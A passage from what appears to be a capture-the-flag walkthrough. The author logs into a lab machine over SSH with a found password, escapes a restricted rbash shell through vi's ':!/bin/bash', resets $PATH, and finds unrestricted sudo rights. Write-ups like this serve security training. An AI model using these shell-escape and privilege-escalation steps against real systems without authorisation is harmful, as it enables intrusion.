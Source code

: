 As suspected, password was easily found. Now we can log into the `ssh`. 

```text 
root@kali:~# ssh guest@10.0.0.8
The authenticity of host '10.0.0.8 (10.0.0.8)' can't be established.
ECDSA key fingerprint is SHA256:BMhLOBAe8UBwzvDNexM7vC3gv9ytO1L8etgkkIL8Ipk.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.0.8' (ECDSA) to the list of known hosts.
guest@10.0.0.8's password: 
Last login: Mon Aug  6 16:25:44 2018 from 192.168.56.102
guest@porteus:~$ ls -la
-rbash: /bin/ls: restricted: cannot specify `/' in command names
guest@porteus:~$ ls
-rbash: /bin/ls: restricted: cannot specify `/' in command names
guest@porteus:~$ id
-rbash: id: command not found
```

Unluckily, it seems we are logged into the restricted shell. After some command brute forcing I've found that `echo` works. 

```text 
guest@porteus:~$ echo *
Desktop Documents Downloads Music Pictures Public Videos prog
```

But in addition, while checking all possible text editors that may allow us to escape, I've found that `vi` indeed works. We just have to enter `!/bin/bash`, which will spawn `bash` shell. 

```text
guest@porteus:~$ vi

:!/bin/bash

bash: grep: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
bash: ps: command not found
guest@porteus:~$ ls 
Desktop/  Documents/  Downloads/  Music/  Pictures/  Public/  Videos/  prog/
```

Everything goes as planned. But we cannot use commands such as `find`, `cat`, which is strange. I've looked into `$PATH` enviromental variable, and it looks for binaries from `/home/guest/prog`, but not inside `/usr/bin` or `/bin`.

```text
guest@porteus:~$ echo $PATH
/home/guest/prog
```

We can change it with `export`. 

```text
guest@porteus:~$ export PATH=/usr/bin:/bin/
```
Now we are able to take full advantage of available commands. After running `sudo -l`, we can see that we are able to easily use `sudo` with any command. 
